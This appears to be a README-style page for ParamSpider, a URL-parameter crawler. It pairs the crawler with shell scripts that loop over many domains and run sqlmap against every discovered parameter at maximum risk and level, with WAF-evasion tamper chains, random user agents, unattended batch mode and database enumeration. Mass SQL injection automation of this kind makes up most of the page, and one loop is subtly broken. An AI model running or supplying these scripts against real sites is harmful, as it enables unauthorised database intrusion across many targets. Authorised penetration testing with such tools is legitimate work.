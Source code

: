 # ParamSpider

## Setup

```
$ git clone https://github.com/devanshbatham/ParamSpider && \
cd ParamSpider && pip3 install -r requirements.txt
```

## Usage

TODO: Provide more usage coverage for ParamSpider

`$ paramspider -d <website.com> -e jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt -o urls.txt`

`$ paramspider -d <website.com> -o output.txt && for URL in output.txt; do (sqlmap -u "${URL}" --risk=3 --level=5 --random-agent --batch --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes); done`

- **Automated script to exploit for parameters for sql injection vulnerabilities**

`$ cat fetch-parameters.sh`

```bash
#!/bin/sh

if [ $# -lt 1 ]
then
    echo "Usage: $0 urls.txt"
    exit 1
fi

mkdir output-sqli

while read -r domain
do
        ./paramspider.py -d $domain -e jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt,htm,html \
		-o output-sqli/"${domain}"-urls.txt
done < $1

sleep 3

cat output-sqli/*.txt > output-sqli/param-urls.txt
```

`$ cat sqli-automation.sh`

```bash
#!/bin/sh  
  
if [ $# -lt 1 ]  
then  
    echo "Usage: $0 urls.txt"  
    exit 1  
fi  
  
mkdir output-sqli  
  
while read -r domain  
do  
        ./paramspider.py -d $domain -e jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt,js,htm,html \  
        -o output-sqli/"${domain}"-urls.txt  
done < $1

sleep 3
  
for file in $(ls output-sqli/*.txt)
do
        while read -r line
        do
                sqlmap -u $line --dbs --risk=3 --level=5 --random-agent --batch --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
        done < $file
done
```

## References

- [ParamSpider](https://github.com/devanshbatham/ParamSpider)